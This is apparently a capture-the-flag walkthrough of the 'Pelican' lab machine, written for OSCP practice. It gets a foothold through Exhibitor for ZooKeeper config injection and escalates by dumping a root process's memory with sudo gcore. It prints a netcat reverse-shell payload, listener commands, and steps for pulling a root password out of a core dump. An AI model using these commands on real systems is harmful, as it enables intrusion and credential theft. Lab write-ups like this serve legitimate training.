





# Pelican - OSCP Machine Walkthrough

**Platform:** Offensive Security Proving Grounds  
**OS:** Linux (Debian)  
**Difficulty:** Intermediate  
**IP:** `192.168.xxx.xxx`

---

## Overview

Pelican is a Linux machine that chains together a publicly known Exhibitor for ZooKeeper RCE vulnerability to get an initial foothold as a low-privileged user, then abuses a `sudo` misconfiguration allowing `gcore` to be run as root ->  leaking root credentials straight out of process memory.

---

## Enumeration

### Nmap

```
PORT      STATE SERVICE     VERSION
22/tcp    open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2
139/tcp   open  netbios-ssn Samba smbd 3.X - 4.X
445/tcp   open  netbios-ssn Samba smbd 4.9.5-Debian
631/tcp   open  ipp         CUPS 2.2.10
2181/tcp  open  zookeeper   Zookeeper 3.4.6-1569965
2222/tcp  open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2
8080/tcp  open  http        Jetty 1.0
8081/tcp  open  http        nginx 1.14.2
39605/tcp open  java-rmi    Java RMI
```

A lot going on here. The key ones to note:

- **Port 8080** ->  Jetty returns a 404, but port 8081 (nginx) redirects straight to `http://192.168.241.98:8080/exhibitor/v1/ui/index.html`.
- **Port 2181** ->  ZooKeeper, which ties directly into the above.
- **Port 631** ->  CUPS 2.2, no usable exploits on searchsploit.

### Dead ends

- SMB (139/445) ->  no accessible shares.
- CUPS 2.2 ->  no exploits.
- ZooKeeper (2181) ->  no direct exploit, but exploitable indirectly via Exhibitor.
- Jetty on 8080 ->  directory and file fuzzing returned nothing useful.

---

## Initial Foothold ->  Exhibitor for ZooKeeper RCE

Navigating to `http://192.168.xxx.xxx:8081` redirects to the **Exhibitor for ZooKeeper** web UI on port 8080.

Exhibitor has a well-known RCE via the **Config** tab ->  the `java.env script` field is executed by the ZooKeeper process. Searchsploit has an entry for this.

**Steps:**
1. Click the **Config** tab in the Exhibitor UI.
2. Toggle **Editing ON**.
3. In the `java.env script` field, insert a reverse shell:

```bash
$(/bin/nc -e /bin/sh 192.168.xxx.xxx 4444 &)
```

4. Set up a listener:

```bash
sudo rlwrap nc -nvlp 4444
```

5. Click **Commit** in the UI to apply the config.

The shell connects back and we're running as **charles** out of `/opt/zookeeper`.



---

## Local Flag

Once in, navigate to charles' home directory and grab the local flag:

**Local flag:** `d5baf9f7aee5740cb3ddb5a6f95b4xxx`



---

## Privilege Escalation ->  gcore + Process Memory Dump

### sudo -l

```
User charles may run the following commands on pelican:
    (ALL) NOPASSWD: /usr/bin/gcore
```

Charles can run `gcore` as root ->  a GNU debugger utility that dumps the memory of a running process to a file. The plan: dump a root-owned process and grep the output for credentials.

### Find a root process to dump

```bash
ps aux | grep -i root
```

Look for a process that's likely to have credentials in memory (e.g., a password manager or similar daemon). On this box, PID **513** was the target.

### Dump the process memory

```bash
sudo -u root gcore -a -o pass 513
```

This saves a core dump as `pass.513`.

### Extract credentials from the dump

```bash
strings pass.513 | grep -A1 -i password
```

The strings output reveals:

```
001 Password: root:ClogKingpinInning731
```





### Switch to root

```bash
su root
# Password: ClogKingpinInning731
```

---

## Root Flag

```bash
cd /root
cat proof.txt
```

**Root flag:** `a0cd40939dd948f03097858b6571cxxx`



---

## Summary

| Stage | Method |
|---|---|
| Recon | Nmap ->  identified Exhibitor UI on 8081→8080 |
| Foothold | Exhibitor ZooKeeper RCE via `java.env script` field |
| User | Shell as `charles` |
| PrivEsc | `sudo gcore` → dump root process memory → credentials in plaintext |
| Root | `su root` with recovered password |

---

## Key Takeaways

- **Exhibitor for ZooKeeper** should never be exposed without authentication ->  the config UI allows arbitrary command execution by design.
- **`gcore` as sudo** is a classic privesc primitive. Any process running as root can have its memory dumped, and sensitive data (passwords, tokens, keys) often lives unencrypted in process memory.
- Always check `ps aux` for interesting root processes when you have `gcore` or `ptrace` capabilities.
